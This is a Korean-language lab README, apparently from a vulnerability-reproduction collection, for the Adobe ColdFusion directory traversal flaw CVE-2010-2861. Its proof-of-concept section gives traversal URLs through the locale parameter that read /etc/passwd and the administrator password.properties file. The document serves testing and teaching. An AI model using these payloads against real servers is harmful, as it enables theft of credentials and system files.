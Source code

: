 # Adobe ColdFusion 디렉토리 순회 취약점 (CVE-2010-2861)


Adobe ColdFusion은 1995년 J. J. Allaire가 만든 상업용 웹 애플리케이션 개발 컴퓨팅 플랫폼입니다

Adobe ColdFusion 9.0.1 이전 버전에는 디렉토리 순회 취약성이 있으며, 이를 통해 원격 공격자가 로케일 매개 변수를 통해 (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2e packaging/editarchive.cfm 및 (5) Enter.cfm을 CFIDE/administrator/를 읽을 수 있습니다.

## 환경 설정

다음 명령을 실행하여 Adobe CouldFusion 8.0.1 서버를 시작합니다.

```
docker compose up -d
```

서버를 시작하는 데 1~5분 정도 걸릴 수 있습니다. 그 후아래 페이지에 방문합니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm 방문하면 초기 설정 페이지를 볼 수 이ㅣㅆ습니다. admin 패스워드를 입력하면 전체 서버가 초기화 됩니다.

## POC

파일을 읽어오기 위해 /etc/passwd 경로로 http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en:

![](1.png)

다음을 통해 백그라운드 관리자 암호 읽기를 읽어옵니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en:

![](2.png)
